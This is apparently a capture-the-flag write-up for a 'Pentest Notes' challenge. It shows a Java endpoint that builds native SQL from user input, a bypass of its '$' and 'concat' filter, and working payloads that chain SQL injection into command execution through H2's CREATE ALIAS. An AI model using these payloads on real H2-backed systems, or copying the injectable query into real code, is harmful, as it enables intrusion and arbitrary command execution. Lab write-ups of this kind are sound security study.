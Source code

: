 # Pentest Notes

## Solutions
We can login using default user account (user,123)
```sql
INSERT INTO users (id, username,password) VALUES (1, 'user', '123');
```

```java
    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
```
First glance at the note function, we can see that there is no restriction for name parameter. And after i put a ' OR 1=1; in the payload, it return all the notes. So that it is a SQLi, and we need somehow to chain this to RCE so that we can read the flag.
After searching around, i saw a interesting [writeup](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2).

So for short, H2 database allows us to create a function that execute Java code through ALIAS
```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
So here is our function but there are some conditions.
```java
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
```
We cannot use `$` or the `CONCAT` function. Fortunately, we can bypass this restriction since the `CREATE ALIAS` expects a String, so we don't need to use `$`.
So out payload would be 
```sql
'CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }';--
```
After injecting this function to the database,what we need now is just call out the function.
```sql
' UNION SELECT NULL,NULL,EXECVE('ls') AS note;--
```
We need to 2 first null so that it can match the collumns

![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/screenshot.png)


